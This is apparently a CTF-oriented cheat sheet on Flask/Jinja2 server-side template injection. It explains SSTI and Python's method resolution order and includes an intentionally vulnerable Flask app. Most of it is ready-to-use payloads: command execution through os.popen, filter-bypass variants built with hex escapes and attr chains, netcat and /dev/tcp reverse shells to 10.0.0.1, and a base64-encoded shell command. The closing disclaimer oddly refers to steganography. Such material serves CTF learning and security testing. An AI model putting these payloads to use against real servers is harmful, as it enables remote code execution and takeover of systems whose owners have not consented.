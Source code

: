 ```yaml
---
title: FLASK JINJA PENTESTING
date: 2023-07-12 09:12:40 +/-TTTT
categories: [learning, web]
tags: [ctf]     # TAG names should always be lowercase
---
```


Flask is a micro web framework written in Python.

# Common Directories

```
/app.py
/main.py
/modules.py
/modules/__init__.py
/modules/admin.py
```

# Server-Side Template Injection (SSTI)

A server side template injection is a vulnerability that occurs when a server renders user input as a template of some sort. Templates can be used when only minor details of a page need to change from circumstance to circumstance. For example, depending on the IP that accesses a site, the site may look like :

```py
<h1>Welcome to the page!</h1>
<u>This page is being accessed from the remote address: {{ip}}</u>
```

Instead of creating a whole new page per person that accesses the site, it will simply render the remote address into the ``{{ip}}`` variable, while reusing the rest of the HTML for each person request the server receives to that endpoint.

This can be abused, since some template engines support some fairly complex functionality, that eventually allow for developers to run commands or file contents straight from the template.

So when the power to create and render templates is given to a user, it can lead to full access to the system, as the user running the webserver.

# What is ‘MRO’?

MRO (Resolution Order method) is the order in which Python is looking for methods in class hierarchy. When an object of calling method, python will look for the compliance method in the sequence determined by MRO. This MRO sequence determines the order of inheritance of the class to be sought by Python.

Example : 

```py
class A:
    def process(self):
        print('A process()')

class B:
    def process(self):
        print('B process()')

class C(A, B):
    def process(self):
        print('C process()')

class D(C, B):
    pass

obj = D()
obj.process()

print(D.mro())
```

In this example, when `object D` calls the process method (), Python will look for the method in the MRO sequence. The output of the `print (D.Mro ())` will provide a MRO sequence for class D :

```py
[<class '__main__.D'>, <class '__main__.C'>, <class '__main__.A'>, <class '__main__.B'>, <class 'object'>]
```

This MRO sequence shows that the process `method ()` will be sought first in class `D`, then in class `C`, followed by `A, B`, and Object (basic class for all classes in Python).

By using MRO, we can understand the sequence of class inheritance and `identify which classes will be used in certain situations`. This is useful especially when using multiple inheritance or in the context of the construction of SSTI content with `Jinja2`.

```py
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route("/")
def home():
    if request.args.get('c'):
        return render_template_string(request.args.get('c'))
    else:
        return "Hi!!!"

if __name__ == "__main__":
    app.run(debug=True)
```

# Installation

* sudo apt-get install python-pip
* pip install flask --user
* python app.py


Sometimes, website may filter specific characters.
If so, URL encode the payload or convert to HEX.
In addition, it’s recommended to send requests using Burp Suite because web browsers automatically update the payload.

`Payload`
```py
{{ 4*2 }}
{{ config.items() }}
# Remove curly brackets
{2*3}
2*3
```

If success, you may be able to exploit with `OS command injection`.

`
{{ __import__('os').system('ping -c 1 10.0.0.1') }}
`

`{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}`

`{{ request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']() }}`

`{{ request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']() }}`

`{{ request|attr('application')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')('os')|attr('popen')('id')|attr('read')() }}`

`{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')() }}`

`{{ ''.__class__.__mro__[1].__subclasses__()[401]("whoami", shell=True, stdout=-1).communicate() }}`


# RCE bypassing 


`{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`

#  waf blocks “.”:

`{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']()}}`

# waf blocks “.” and “_”:
`{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']()}}`

# Bypassing the blocks on “.”, “_”, “[]” and “|join”
`{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
`
# Reverse Shell
`{{config.__class__.__init__.__globals__['os'].popen('mkfifo /tmp/ZTQ0Y; nc 10.0.0.1 443 0</tmp/ZTQ0Y | /bin/sh >/tmp/ZTQ0Y 2>&1; rm /tmp/ZTQ0Y').read()}}`

`{{ request|attr('application')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')('os')|attr('popen')('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f')|attr('read')() }}`

# Filter bypass - Base64 encode
`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo "YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xNy80NDQ0IDA+JjEi" | base64 -d | bash').read() }}`

Alternatively, we can create a shell script to reverse shell, then execute it in the server side.
For example, create a shell script named `revshell` in local machine.

```py
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"
```

Then host it and start a listener for receiving an incoming request.

```py
# Local terminal 1
python3 -m http.server 8000

# Local terminal 2
nc -lvnp 4444
```

# DISCLAIMER
```
This cheatsheet is intended to guide CTF players in their research. This cheatsheet is not representative of modern steganography/seganalysis techniques, and its content does match with the creation of an interesting challenges 😉.
```